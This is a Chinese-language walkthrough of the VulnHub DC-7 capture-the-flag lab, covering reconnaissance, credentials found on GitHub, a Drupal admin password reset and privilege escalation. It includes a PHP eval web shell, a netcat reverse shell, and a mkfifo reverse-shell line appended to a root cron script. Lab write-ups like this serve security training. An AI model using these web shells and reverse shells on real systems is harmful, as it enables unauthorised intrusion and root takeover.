# DC7

 - [参考资料](https://blog.csdn.net/weixin_43583637/article/details/102809227?ops_request_misc=%7B%22request%5Fid%22%3A%22158264870219725219922181%22%2C%22scm%22%3A%2220140713.130056874..%22%7D&request_id=158264870219725219922181&biz_id=0&utm_source=distribute.pc_search_result.none-task)

 - [参考资料]https://blog.csdn.net/weixin_43583637/article/details/102809227)

 - [下载地址](https://www.vulnhub.com/entry/dc-7,356/)


## 初探

```
nmap -sP 192.168.31.0/24
```



```
nmap -sT -sV -T5 -A -p- 192.168.31.196
```




使用kali下的网站指纹工具whatweb查看靶机搭建的网站，发现是使用Drupal 8搭建的网站


翻译一下提示
```
欢迎来到DC-7

DC-7引入了一些“新”概念，但是我会让您知道它们是什么。:-)

尽管这一挑战并不是技术性的全部，但是如果您需要诉诸于暴力破解或字典攻击，那么您可能不会成功。

您将要做的就是在盒子外面思考。

方式在盒子外面。:-)
```
？？？ 嘛意思嘛弟弟？？？

在百度搜索@DC7USER后，发现是一个Twitter用户，进入Twitter后搜索这个用户，进入这个用户首页，发现一个GitHub的链接



```
https://github.com/Dc7User/
```
果然



```
这是DC-7挑战的一些“代码”(是的，它不是最好的代码，但那不是重点)。顺便说一句，这不是flag，但如果你在这里做了，无论如何都做得很好。:-)
```

???嘛玩意儿??? 找到了

我们把github上的内容下载下来，查看到了一个配置文件给到了一个账号和密码


```
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

`dc7user: MdR3xOgB7#dW`

## 中期

使用kali下的网站指纹工具whatweb查看靶机搭建的网站，发现是使用Drupal 8搭建的网站

```
whatweb http://192.168.31.196
```



连上 `ssh dc7user@192.168.31.196`



home目录下发现了gpg加密的website.sql文件和一个mbox邮件


去看看这个文件




啥意思嘛 就我不配呗，执行文件的拥有者是root，root所属组是www-data，所以拿到www-data权限，修改这个可执行文件，等待文件自动执行就可以反弹回一个rootshell。 小老弟 你这个组怕不是必没。

仔细查看，进入到/var/www/html目录下，因为网站会有一个admin用户，所以使用drush命令修改admin用户的密码为123456，发现可以修改成功

```
cd /var/www/html/

drush user-password admin --password="123456"
```


来到网站后台，使用admin/123456登录网站，成功登录.

```
http://192.168.31.196/user/login
```

在Content—>Add content-->Basic page下.

准备添加PHP代码反弹shell，但发现Drupal 8不支持PHP代码，百度后知道Drupal 8后为了安全，需要将php单独作为一个模块导入.




```
https://www.drupal.org/project/php   //Php介绍页面如下
 
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz //模块包下载地址
```



安装插件




选择FILTERS，勾选PHP点击Install安装，安装成功后会有提示




OK 安装成功

## 后期

然后来到网站开始的欢迎页面，对该页面进行编辑，添加一句话PHP代码，并保存为PHP代码

```
GetShell
<?php
@eval($_REQUEST[1]);
?>
```
使用蚁剑链接。



在kali监听4545端口，并反弹shell到kali，切换shell外壳

```
nc -e /bin/bash 192.168.31.196 4545


nc -lvvp 4545
python -c 'import pty;pty.spawn("/bin/bash")'
```
因为当前用户是www-data

在/opt/scripts目录下的backups.sh脚本文件所属组是www-data，所以www-data用户可以对这个脚本文件进行操作，并且这个脚本文件定时执行可以利用它来反弹shell。(这个脚本定时为15分钟 我佛了！)

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.31.196 4444 >/tmp/f" >> backups.sh
 
nc -lvvp 4444
```


得到root权限后，进入root家目录下，发现theflag.txt文件


## 总结

该靶场大致要点为：
1. 信息收集
2. php写反向shell
3. 通过backups.sh脚本提权

更新笔记：
1. 提权骚操作
2. web渗透


